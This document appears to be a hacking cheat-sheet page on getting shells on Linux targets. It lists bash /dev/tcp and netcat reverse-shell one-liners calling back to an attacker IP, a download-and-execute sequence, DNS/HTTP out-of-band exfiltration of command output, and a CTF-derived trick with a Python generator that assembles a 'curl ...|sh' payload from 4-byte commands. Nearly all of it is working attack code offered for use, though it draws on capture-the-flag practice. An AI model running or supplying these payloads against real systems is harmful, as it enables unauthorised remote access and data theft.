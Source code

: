 ```yaml
---
description: Specific tricks to get a shell for hacking Linux-based boxes
---
```


# Shells

## Reverse Shells

{% embed url="https://www.revshells.com/" %}

{% code title="Common reverse shells" %}
```shell
bash -i >& /dev/tcp/$YOUR_IP/1337 0>&1
sh -i >& /dev/tcp/$YOUR_IP/1337 0>&1
bash -c 'bash -i >& /dev/tcp/$YOUR_IP/1337 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $YOUR_IP 1337 >/tmp/f
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|sh -i 2>&1|nc $YOUR_IP 1337 >/tmp/g
```
{% endcode %}

If you find a filter or have weird/short input, try simply downloading and then executing in two separate commands:

{% code title="Attacker" %}
```shell-session
$ mkdir http
$ nano http/shell.sh  # Can be index.html to do just `wget $YOUR_IP` on the victim
$ default listen http http
```
{% endcode %}

{% code title="Victim" %}
```shell-session
$ wget $YOUR_IP/shell.sh
$ sh shell.sh
```
{% endcode %}

With very limited communication available, you can try a few things:

```shell
sleep 10  # Should wait 10 seconds if code is executed
# DNS
interactsh-client -v  # Start as attacker (https://github.com/projectdiscovery/interactsh)
nslookup nftca6lpouq.oast.live  # Any DNS request will trigger in tool
bash -c 'echo 1 > /dev/tcp/`whoami`.`hostname`.nftca6lpouq.oast.live/443'  # Exfiltrate command output
# HTTP
curl nftca6lpouq.oast.live
```

### RCE in 4 bytes

Sometimes you're limited in the length of the commands you can execute. There is a technique in bash to execute commands and save things to files, and eventually execute arbitrary code by just sending multiple 4-byte commands. The technique was a solution to a challenge by [Orange Tsai](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2).&#x20;

The idea goes like this. Using file redirection with `>` you can save files with a name. Then we can slowly build out some letters to form a different command, and we can combine the letters using `dir`. This command just lists the current directory and places them all after each other separated by spaces. Using the `*` wildcard all files in the current directory will be inserted but in alphabetical order. This makes it quite hard to do much right now:

```shell-session
$ >dir  # Define dir command
$ >sl   # ls
$ >g\>  # >g
$ >ht-  # -th
$ *>v   # Execute dir command to file "v"
```

The `v` file now contains `g> ht- sl`. Reversed this would be `ls -th >g`, which allows us to list the files ordered by **time**. This way we don't have the restriction to have the command be in alphabetical order.&#x20;

```shell-session
$ >rev  # Define rev command
$ *v>x  # * wildcard matching only rev and v files, saving to x
```

Now `x` contains the desired `ls -th >g` which we can execute whenever we want. Now that the final file will be ordered by time, we can just write out the full payload character by character. Later we will create a file that has all of these separated by a newline, so we need to add a `\` at the end to escape the newline. Let's make `curl localhost:8000|sh;` for example:

```shell-session
$ >\;\\
$ >sh\\
$ >\|\\
$ >00\\
$ >80\\
$ >t:\\
$ >os\\
$ >lh\\
$ >ca\\
$ >lo\\
$ >\ \\
$ >rl\\
$ >cu\\
```

In an actual attack, you would send only one `\` at the end, but here in the interactive bash, we need to escape it ourselves. Executing the `ls -th` command we made earlier now, it gives us the desired command with backslashes to escape the newlines:

```shell-session
$ ls -th | cat
g
cu\
rl\
 \
lo\
ca\
lh\
os\
t:\
80\
00\
|\
sh\
;\
x
rev
v
ht-
g>
sl
dir
```

Finally, we can execute the `x` script to do the above command into a file called `g`. Then we can run the g script to actually run the payload that fetches a script from the `localhost:8000` address, of course, this can be any site of your own to host a malicious payload on.&#x20;

```shell-session
$ sh x  # ls -th >g
$ sh g  # Run final payload
```

To automatically run any payload you want, I made the following Python script to showcase the attack and create any payload:

{% code title="generate.py" %}
```python
import os
from time import sleep

COMMAND = "curl localhost:8000|sh;"  # Needs ; at the end for correct syntax


def is_normal_char(c):  # Safe characters that don't need to be escaped
    return c in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789,._+:@%/-"

def escape(c):
    if is_normal_char(c):
        return c
    else:
        return "\\" + c

def command_to_chunks(command):
    command = list(command)  # Allows .pop() method
    result = []
    while True:  # Go through whole command
        try:
            chunk = escape(command.pop())
            if len(chunk + escape(command[-1])) <= 2:  # Test potential extra character
                chunk = command.pop() + chunk  # Add another character because enough space
            
            result.append(f">{chunk}\\")
        except IndexError:  # If done
            break
    
    return result


payload = [
    # generate "g> ht- sl" to file "v"
    '>dir',  # Define dir command
    '>sl',   # ls
    '>g\>',  # >g
    '>ht-',  # -th
    '*>v',   # Execute dir command to file "v"

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',  # Define rev command
    '*v>x',  # * wildcard matching only rev and v files, saving to x
]

payload += command_to_chunks(COMMAND)

payload += [
    "sh x",  # ls -th >g
    "sh g",  # Run final payload
]

for c in payload:
    print(c)  # Send to target

# Optional: Execute proof-of-concept locally
# for c in payload:
#     sleep(0.1)  # Wait to make sure order is correct (no race conditions)
#     if len(c) <= 4:  # Max 4 bytes
#         os.system(c)
```
{% endcode %}
